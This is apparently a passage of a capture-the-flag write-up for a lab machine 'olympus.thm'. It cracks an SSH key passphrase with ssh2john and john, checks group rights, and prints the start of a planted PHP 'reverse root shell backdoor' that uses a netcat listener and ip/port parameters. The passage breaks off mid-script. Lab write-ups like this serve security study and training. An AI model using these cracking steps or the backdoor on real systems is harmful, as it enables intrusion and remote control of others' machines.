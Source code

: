 ```shell
$ ssh zeus@olympus.thm -i zeus_priv_key.txt
The authenticity of host 'olympus.thm (10.10.9.206)' can't be established.
ED25519 key fingerprint is SHA256:XbXc3bAs1IiavZWj9IgVFZORm5vh2hzeSuStvOcjhcI.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'olympus.thm' (ED25519) to the list of known hosts.
Enter passphrase for key 'zeus_priv_key.txt':
```

unfortunately a passphrase was expected. so next up `ssh2john`

```shell
$ ssh2john zeus_priv_key.txt > zeus_priv_key_hash.txt
```

with this hash i could execute john on the rockyou list and got the passphrase.

```shell
$ john --wordlist=/usr/share/wordlists/rockyou.txt zeus_priv_key_hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 5 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s*******e        (zeus_priv_key.txt)
1g 0:00:00:29 DONE (2022-12-14 04:19) 0.03368g/s 51.19p/s 51.19c/s 51.19C/s esperanza..emotional
Use the "--show" option to display all of the cracked passwords reliably
Session completed.

```

```shell
zeus:s*******e
```

### root

```shell
zeus@olympus:~$ id
uid=1000(zeus) gid=1000(zeus) groups=1000(zeus),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev)
```

next i checked groups. i found a few things online that could work with `adm` and `sudo`. but the password of `zeus` was still missing.

i looked into the hosted web content and was surprised that one folder had a very random name.

```shell
zeus@olympus:/var/www/html$ ls
0aB44fdS3eDnLkpsz3deGv8TttR4sc  index.html.old  index.php
```

inside was a php file that said about itself that it was a `root reverse backdoor`.

```shell
zeus@olympus:/var/www/html/0aB44fdS3eDnLkpsz3deGv8TttR4sc$ cat VIGQFQFMYOST.php
<?php
$pass = "a7c5ffcf139742f52a5267c4a0674129";
if(!isset($_POST["password"]) || $_POST["password"] != $pass) die('<form name="auth" method="POST">Password: <input type="password" name="password" /></form>');

set_time_limit(0);

$host = htmlspecialchars("$_SERVER[HTTP_HOST]$_SERVER[REQUEST_URI]", ENT_QUOTES, "UTF-8");
if(!isset($_GET["ip"]) || !isset($_GET["port"])) die("<h2><i>snodew reverse root shell backdoor</i></h2><h3>Usage:</h3>Locally: nc -vlp [port]</br>Remote: $host?ip=[destination of listener]&port=[listening port]");
$ip = $_GET["ip"]; $port = $_GET["port"];

```